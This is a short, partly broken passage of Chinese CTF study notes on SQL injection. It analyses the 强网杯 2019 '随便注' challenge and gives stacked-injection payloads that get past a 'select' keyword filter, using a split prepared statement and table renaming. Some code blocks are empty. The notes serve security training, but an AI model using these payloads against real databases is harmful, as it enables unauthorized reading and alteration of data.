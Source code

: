 handler

```sql
```

## 练习题

- GYCTF2020 Ezsqli
- 网鼎杯 2018 unfinish

## 经典赛题分析

### 强网杯_2019_随便注

堆叠注入

1. 单引号、有错误信息提示、字段数为 2
2. 过滤`preg_match("/select|update|delete|drop|insert|where|\./i",$inject);`
3. 过滤`select`，考虑堆叠注入

方法 1:预编译

```sql
SET @sql=concat("se","lect flag from `1919810931114514`");PREPARE x FROM @sql;EXECUTE x;
```

方法 2:修改表名、字段名

```sql
RENAME TABLE `words` TO `words1`;RENAME TABLE `1919810931114514` TO `words`;ALTER TABLE `words` CHANGE `flag` `id` VARCHAR(100);
```

方法 3:`handler`，见

```sql

```

> i春秋2020新春公益赛第二天blacklist，采用第三种方法

<!-OOB,oeder by 注入，false 注入，like 注入 mysql 特性-->